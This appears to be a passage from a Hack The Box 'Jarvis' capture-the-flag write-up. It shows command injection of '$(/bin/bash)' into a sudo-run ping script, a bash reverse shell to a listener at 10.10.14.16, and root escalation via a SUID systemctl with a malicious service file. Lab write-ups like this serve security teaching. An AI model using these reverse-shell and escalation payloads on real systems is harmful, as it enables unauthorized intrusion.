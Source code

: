 We can see that it tried to use `pepper` as the target to send ping to. This confirms that we're running commands as pepper. `/` isn't banned so we can send `$(/bin/bash)` as the IP to ping. This will drop us into bash as pepper and this allows us to connect to our listener on port 444.

```bash
www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************

Enter an IP: $(/bin/bash)
pepper@jarvis:/var/www/Admin-Utilities$ bash -i >& /dev/tcp/10.10.14.16/444 0>&1
```

```bash
luc@kali:~/HTB/Jarvis$ sudo nc -lnvp 444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::444
Ncat: Listening on 0.0.0.0:444
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:43350.
pepper@jarvis:/var/www/Admin-Utilities$ cd /home/pepper/
pepper@jarvis:~$ cat user.txt
2afa36c4************************
```

### /bin/systemctl

We noticed earlier that /bin/systemctl is a SUID binary. We couldn't execute it as www-data, but we can execute it as pepper.

```bash
pepper@jarvis:~$ ls /bin/systemctl -lsa
172 -rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
```

#### GTFO bins

[GTFO Bins Systemctl](https://gtfobins.github.io/gtfobins/systemctl/#suid) shows us that this application is exploitable to get root access on a system. We'll have our service connect to our listener on port 445.

```bash
pepper@jarvis:~$ nano exploit.service
[Service]
Type=oneshot
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/445 0>&1'

[Install]
WantedBy=multi-user.target
pepper@jarvis:~$ /bin/systemctl enable /home/pepper/exploit.service
pepper@jarvis:~$ /bin/systemctl start exploit
```
